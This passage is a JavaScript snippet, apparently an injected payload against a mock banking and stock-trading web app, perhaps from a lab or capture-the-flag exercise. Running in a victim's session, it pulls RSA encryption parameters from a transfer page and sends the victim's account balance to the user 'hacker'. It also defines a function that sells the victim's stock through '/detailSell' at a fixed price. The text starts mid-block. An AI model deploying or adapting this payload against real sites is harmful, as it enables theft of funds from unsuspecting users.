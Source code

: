 ```
                    }
                });

                if (!transfer_res.ok) {
                    throw new Error('Network response was not ok');
                }

                const tranfer_text = await transfer_res.text();
                const userIdInput = 'hacker'; 
                const modulusMatch = tranfer_text.match(/id="RSAModulus"\s+value="([^"]+)"/);
                const Exponent = tranfer_text.match(/id="RSAExponent"\s+value="([^"]+)"/);

                if (userIdInput && modulusMatch && Exponent) {
                    const RSAModulus = modulusMatch[1];
                    const RSAExponent = Exponent[1]; 
                    await ajaxSend(RSAModulus, RSAExponent, userIdInput, bal);
                } else {
                    console.log("Required data not found in transfer response.");
                }
            } else {
                console.log("ACCOUNT_BALANCE not found.");
            }
        } catch (error) {
            console.error('Fetch error:', error);
        }
    }

    async function main() {
        await getStock();
        await sendMoney();
    }

    main();

    async function performAjaxSell(RSAModulus, RSAExponent, UserId, stock, haveUnit) {
    var PRICE = '100';
    var UNIT = haveUnit;
    var USERID = UserId;
    var STOCK = stock;

    const rsa = new RSAKey();
    rsa.setPublic(RSAModulus, RSAExponent);
    let data = {
        stock: STOCK,
        price: PRICE,
        userId: USERID,
        unit: UNIT
    };
    let e2eData = rsa.encrypt(JSON.stringify(data));

    // Promise를 반환하는 jQuery Ajax 사용
    try {
        const response = await $.ajax({
            url: '/detailSell',
            type: 'POST',
            contentType: 'application/json',
            data: e2eData
        });
        alert(response.MSG);
    } catch (error) {
        alert('오류 발생: ' + error.statusText);
    }
}
```